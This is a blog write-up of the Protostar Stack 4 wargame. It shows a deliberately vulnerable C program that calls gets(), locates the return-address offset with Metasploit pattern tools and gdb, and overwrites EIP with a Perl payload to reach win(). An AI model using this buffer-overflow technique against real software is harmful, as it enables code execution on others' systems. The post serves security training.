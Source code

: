 ```yaml
---
title: "Exploit Exercises - Protostar Stack 4"
date: "2011-12-16T05:52:00-05:00"
comments: true
highlight: "true"
categories:
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
---
```


With [this](http://exploit-exercises.com/protostar/stack4) challenge, I think things really start to get fun, and more real-world.  

<!-- more -->

We are provided with the following C program:

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
 printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
 char buffer[64];

 gets(buffer);
}
```

This C app will simply read a value from user input, and store it in "buffer".  We then need to get it to somehow execute "win()". 

To get started, just like in the last challenge, I used objdump to find out where "win()" was located:

```
user@protostar:/opt/protostar/bin$ objdump -d stack4
...
080483f4 <win>:
...
```

Because we're going to need to modify the EIP of this program, we need to find where it is.  You may want to think that it would be immediately after the 64 bytes of the "buffer" array, however this is often times extra space due to null terminators, return values, and more.  So I use some tools from the [Metasploit Framework](http://metasploit.com) on another machine to find the EIP. 

First, I generate a unique string, using the pattern_create tool:

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_create.rb 128
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae
```

Then I execute the vulnerable program in gdb, feeding it the unique string to the input:

```
user@protostar:/opt/protostar/bin$ gdb --quiet ./stack4
Reading symbols from /opt/protostar/bin/stack4...done.
(gdb) run
Starting program: /opt/protostar/bin/stack4
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()
```

Now I know that the EIP contains the value 0x63413563.  I can go back to the Metasploit tools and run the pattern_offset tool to tell me the offset of the EIP:

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_offset.rb 0x63413563
76
```

This tells me that unlike the 64 characters I would have thought, it's actually offset by 76 characters.  So now we just have to get the address of "win()" (0x080483f4) into the EIP at 76 bytes offset:

```
user@protostar:/opt/protostar/bin$ perl -e 'print "A"x76 . "\xf4\x83\x04\x08"' | ./stack4
code flow successfully changed
Segmentation fault
```

There you have it.  We get the execution from "win()".
